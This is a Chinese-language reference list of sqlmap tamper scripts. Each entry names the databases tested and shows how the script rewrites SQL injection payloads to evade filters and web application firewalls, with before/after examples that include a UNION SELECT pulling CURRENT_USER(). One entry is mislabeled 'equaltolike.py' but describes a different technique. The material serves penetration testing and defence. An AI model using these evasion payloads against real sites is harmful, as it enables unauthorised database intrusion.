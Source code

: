 ### **space2comment.py**

测试通过数据库：Microsoft SQL Server 2005、MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0作用：将空格替换为`/**/`使用脚本前：`tamper('SELECT id FROM users')`使用脚本后：`SELECT/**/id/**/FROM/**/users`

### **equaltolike.py**

测试通过数据库：Microsoft SQL Server 2005、MySQL 4, 5.0 and 5.5作用：将`=`替换为`LIKE`使用脚本前：`tamper('SELECT * FROM users WHERE id=1')`使用脚本后：`SELECT * FROM users WHERE id LIKE 1`

### **equaltolike.py**

测试通过数据库：MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0作用：将`>`替换为GREATEST，绕过对`>`的过滤使用脚本前：`tamper('1 AND A > B')`使用脚本后：`1 AND GREATEST(A,B+1)=A`

### **ifnull2ifisnull.py**

适用数据库：MySQL、SQLite (possibly)、SAP MaxDB (possibly)测试通过数据库：MySQL 5.0 and 5.5作用：将类似于`IFNULL(A, B)`替换为`IF(ISNULL(A), B, A)`，绕过对`IFNULL`的过滤使用脚本前：`tamper('IFNULL(1, 2)')`使用脚本后：`IF(ISNULL(1),2,1)`

### **modsecurityversioned.py**

适用数据库：MySQL测试通过数据库：MySQL 5.0作用：过滤空格，使用mysql内联注释的方式进行注入使用脚本前：`tamper('1 AND 2>1--')`使用脚本后：`1 /*!30874AND 2>1*/--`

### **space2mysqlblank.py**

适用数据库：MySQL测试通过数据库：MySQL 5.1作用：将空格替换为其他空格符号`('%09', '%0A', '%0C', '%0D', '%0B')`使用脚本前：`tamper('SELECT id FROM users')`使用脚本后：`SELECT%0Bid%0DFROM%0Cusers`

### **modsecurityzeroversioned.py**

适用数据库：MySQL测试通过数据库：MySQL 5.0作用：使用内联注释方式`（/*!00000*/）`进行注入使用脚本前：`tamper('1 AND 2>1--')`使用脚本后：`1 /*!00000AND 2>1*/--`

### **space2mysqldash.py**

适用数据库：MySQL、MSSQL作用：将空格替换为 `--` ，并追随一个换行符使用脚本前：`tamper('1 AND 9227=9227')`使用脚本后：`1--%0AAND--%0A9227=9227`

### **bluecoat.py**

适用数据库：Blue Coat SGOS测试通过数据库：MySQL 5.1,、SGOS作用：在sql语句之后用有效的随机空白字符替换空格符，随后用`LIKE`替换`=`使用脚本前：`tamper('SELECT id FROM users where id = 1')`使用脚本后：`SELECT%09id FROM users where id LIKE 1`

### **versionedkeywords.py**

适用数据库：MySQL测试通过数据库：MySQL 4.0.18, 5.1.56, 5.5.11作用：注释绕过使用脚本前：`tamper('1 UNION ALL SELECT NULL, NULL, CONCAT(CHAR(58,104,116,116,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,100,114,117,58))#')`使用脚本后：`1/*!UNION*//*!ALL*//*!SELECT*//*!NULL*/,/*!NULL*/, CONCAT(CHAR(58,104,116,116,58),IFNULL(CAST(CURRENT_USER()/*!AS*//*!CHAR*/),CHAR(32)),CHAR(58,100,114,117,58))#`

### **halfversionedmorekeywords.py**
